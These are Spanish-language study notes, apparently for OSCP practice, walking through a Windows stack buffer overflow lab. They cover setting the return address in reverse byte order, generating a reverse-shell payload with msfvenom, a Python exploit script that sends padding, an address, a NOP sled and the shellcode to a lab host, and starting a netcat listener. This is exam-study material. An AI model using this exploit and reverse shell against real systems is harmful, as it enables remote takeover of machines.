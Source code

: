 2º Con la direccion encontrada editamos los valores de siempre pero tambien tenemos que modificar los badchars del codigo
![[Pasted image 20230215174619.png]]
3ºModificar la addres a la INVERSA=si el numero es 12345678 tenemos que hacer “\x87\x65\x43\x21\”
4º En " Go to address dissasembler lo pulsamos y tenemos que especificar el address (hacerlo 2 veces por si acaso)
5º Tecla F2 en la 1º direccion para colocar un breackpoint (tiene qu ecolorearse
5.1 Ejecutar el script
6º Para validar que lo hemos hecho bien, el EIP despues del crasheo tene que ser igual al Addrs

# Generating the shell

Script del paso: [https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/generating-shellcode-and-gaining-shell](https://spartan-cybersecurity.gitbook.io/oscp-notes/buffer-overflow/windows/generating-shellcode-and-gaining-shell)

Ejecutamos 
1º Generamos shell reversa

Los BadChars se especifican despues del -b
`msfvenom -p windows/shell_reverse_tcp LHOST=192.168.86.138 LPORT=443 EXITFUNC=thread -f c -a x86 -b “\x00” < badchars`

Y nos deberia dar algo como esto
![[Pasted image 20230215175314.png]]

2º Creamos el script

~~~~python
#!/usr/bin/python2.7

import sys, socket

overflow = ("Resultado msfvenom")

# \xAF\x11\x50\x62 Este valor le sigue al OFFSET

# x90"*32 son valores por defecto

shellcode = "A" * VALOR_DEL_OFFSET + "\xAF\x11\x50\x62" + "\x90"*32 + overflow

while True:
	try:

		s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
		s.connect(('10.10.10.111',3000))
		s.send(('FUNCION /.:/' + shellcode))
		s.close()

	except:
		print "Server error"
		sys.exit()
~~~~

Y manipulamos los mismos valores pero con algunos especiales

1º Copiamos el generado por msfvenom

2º Cambiar otra vez como en la seccion anterior la direccion

3º Guardamos el output

4º Reverse shell nc -nvlp 443

5º Ejecutamos el script
